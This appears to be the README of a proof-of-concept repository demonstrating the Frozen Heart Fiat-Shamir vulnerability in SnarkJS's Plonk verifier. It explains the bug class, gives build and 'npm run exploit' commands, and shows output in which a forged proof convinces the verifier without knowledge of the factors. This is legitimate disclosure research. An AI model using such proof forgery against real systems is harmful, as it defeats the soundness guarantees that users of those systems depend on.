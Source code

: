 # frozen-heart-poc

A Proof-of-Concept for [the Frozen Heart Vulnerability in Plonk](https://blog.trailofbits.com/2022/04/18/the-frozen-heart-vulnerability-in-plonk/) on [SnarkJS](https://github.com/iden3/snarkjs) implementation (v0.4.15). In this PoC, we will forge a Plonk proof to convince the verifier that we know two factors of a random integer even though we don't really know it.

The [Frozen Heart Vulnerability](https://blog.trailofbits.com/2022/04/13/part-1-coordinated-disclosure-of-vulnerabilities-affecting-girault-bulletproofs-and-plonk/) by [Trail of Bits](https://twitter.com/trailofbits) is a bug class where insecure implementations of the [Fiat-Shamir transformation](https://en.wikipedia.org/wiki/Fiat%E2%80%93Shamir_heuristic) would allow a malicious prover to forge a proof in such a way that the verifier will accept it. While the public inputs will be randomly produced and we can't fix the desired public inputs with its coressponding forge proofs, it could be a fairly serious issue in some circumstances. The vulnerability could arise in various proof systems (Girault, Bulletproofs, Plonk, etc.), in this PoC, we domostrate a PoC of the vulnerability in Plonk proof.

### Build
Make sure you have [Circom](https://docs.circom.io/), [NodeJS](https://nodejs.org/) and [NPM](https://www.npmjs.com/) installed (any version of these softwares should work), then run the following command to build the PoC.

```
./build.sh
```

### Run the PoC
```
npm run exploit
```

```sh
# > frozen-heart@1.0.0 exploit
# > npx tsc && node src/exploit.js

# #### Goal: prove that we know the factors of n without reavealing its factors (n === p * q) to the verifier
# #### Submit a valid proof with the knowledge of private inputs (factors of "n")
# ## Private Inputs (factors p, q): p = 14131697022969285607, q = 14781699601595105827
# ## p * q === 208890500254287832136014517513752931989
# [+] You really know the factor of 208890500254287832136014517513752931989!
# ################ HERE WE GO ################
# #### Submit a forge proof without the knowledge of private inputs (factors of a random "n")
# [+] You really know the factor of 10590450084067612247393057396231008614287484040058187609770642683754037255182!
# #### We have successfully convinced the verifier that we konw the factors of 10590450084067612247393057396231008614287484040058187609770642683754037255182
# #### Even though we have no idea what are its factors
```